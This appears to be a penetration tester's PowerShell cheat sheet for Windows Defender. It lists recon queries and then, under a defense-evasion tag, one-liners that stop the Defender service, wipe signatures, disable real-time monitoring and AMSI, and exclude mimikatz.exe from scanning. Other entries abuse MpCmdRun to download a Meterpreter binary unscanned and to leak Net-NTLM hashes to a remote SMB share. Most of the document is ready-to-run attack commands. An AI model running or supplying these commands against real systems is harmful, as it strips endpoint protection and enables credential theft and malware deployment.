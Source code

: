 # pwsh
% windows, security, antivirus, defender

#plateform/windows #target/local #cat/RECON/SECURITY/DEFENDER #tag/powershell 



## defender - knowledge
```powershell
https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1
https://wirediver.com/disable-windows-defender-in-powershell/
```


## defender - get antivirus
```powershell
wmic.exe /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

## defender - get powershell commands
```powershell
Get-Command -Module Defender
```

## defender - get service Status
```powershell
(Get-Service windefend).Status
```

## defender - get status
```powershell
Get-MpComputerStatus
```

## defender - get defensive modules status
```powershell
Get-MpComputerStatus | Select RealTimeProtectionEnabled, IoavProtectionEnabled, Antispyware | FL
```

## defender - get tamper protection status
```powershell
Get-MpComputerStatus | Select IsTamperProtected, RealTimeProtectionEnabled | FL
```

## defender - get exclusions path
```powershell
Get-MpPreference | Select-Object -Property ExclusionPath, ExclusionExtension
```

## defender - get exclusions extension
```powershell
Get-MpPreference | Select-Object  -Property ExclusionExtension
```


#cat/DEFENSE-EVASION/SECURITY/DEFENDER

## Defender - stop service
```powershell
sc.exe config WinDefend start= disabled; (Get-Service windefend).stop
```

## Defender - Remove signatures (if Internet connection is present, they will be downloaded again)
%ProgramFiles%\Windows Defender\MpCmdRun.exe
```powershell
.\MpCmdRun.exe -RemoveDefinitions -All
```

## Defender - disable All
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true;  Set-MpPreference -DisableScriptScanning $true
```

## Defender - disable Real Time Monitoring 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Defender - Disable scanning for downloaded or attachments
```powershell
Set-MpPreference -DisableIOAVProtection $true
```

## Defender - Disable behaviour monitoring
```powershell
Set-MPPreference -DisableBehaviourMonitoring $true
```

## Defender - Disable AMSI
```powershell
Set-MpPreference -DisableScriptScanning $true
```


## Defender - Add path to exclusions
```powershell
$p = "<path|c:\windows\temp>" ; Add-MpPreference -ExclusionPath $p -AttackSurfaceReductionOnlyExclusions $p
```


## Defender - Add process to exclusions (1)
```powershell
$p = "<path|c:\windows\temp\mimikatz.exe>" ; Add-MpPreference -ExclusionProcess $p -AttackSurfaceReductionOnlyExclusions $p
```

## Defender - Add process to exclusions (2)
```powershell
$p = "<binary|mimikatz.exe>" ; Add-MpPreference -ExclusionProcess $p -AttackSurfaceReductionOnlyExclusions $p
```

## Defender - Add extension to exclusions
```powershell
Set-MpPreference -ExclusionExtension "<extension|ps1>"
```

## Defender - Download without triggering scan
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```

## Defender - steal net-tnlm
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```


## Defender - steal net-tnlm
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```

## Defender - remove signatures
```powershell
C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe -RemoveDefinitions -All
```
